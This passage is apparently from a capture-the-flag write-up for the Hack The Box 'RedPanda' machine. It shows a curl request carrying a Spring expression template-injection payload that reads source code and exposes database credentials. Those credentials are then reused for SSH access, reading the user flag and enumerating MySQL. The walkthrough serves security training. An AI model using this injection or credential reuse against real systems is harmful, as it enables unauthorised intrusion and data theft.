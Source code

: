 Send it to get the file:

```sh
┌──(root㉿kali)-[~/htb/redpanda]
└─# curl -i -s -k -X POST --data-binary 'name=*{T(org.apache.commons.io.IOUtils).toString(T(java.lang
<SNIP>
conn = DriverManager.getConnection(&quot;jdbc:mysql://localhost:3306/red_panda&quot;, 
&quot;woodenk&quot;, &quot;RedPandazRule&quot;);
<SNIP>
```

## SSH User Access

Amongst that we see the connection string with credentials. These are reused for SSH:

```sh
┌──(root㉿kali)-[~/htb/redpanda]
└─# ssh woodenk@10.10.11.170
woodenk@10.10.11.170s password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-121-generic x86_64)
  System information as of Sat 16 Jul 2022 03:13:50 PM UTC
Last login: Sat Jul 16 15:02:23 2022 from 10.10.14.207

woodenk@redpanda:~$ id
uid=1000(woodenk) gid=1000(woodenk) groups=1000(woodenk)
```

Let's grab the user flag before we move on:

```sh
woodenk@redpanda:~$ cat user.txt 
edbcdde9d7780ba9e7e95938fd4e234a
```

## MySQL

We can have a look in the MySQL database with the same credentials:

```sh
woodenk@redpanda:~$ mysql -u woodenk -pRedPandazRule
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 811
Server version: 8.0.29-0ubuntu0.20.04.3 (Ubuntu)

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| red_panda          |
+--------------------+
2 rows in set (0.02 sec)

mysql> use red_panda
Database changed

mysql> show tables;
+---------------------+
| Tables_in_red_panda |
+---------------------+
| pandas              |
+---------------------+
1 row in set (0.00 sec)

mysql> select * from pandas;
```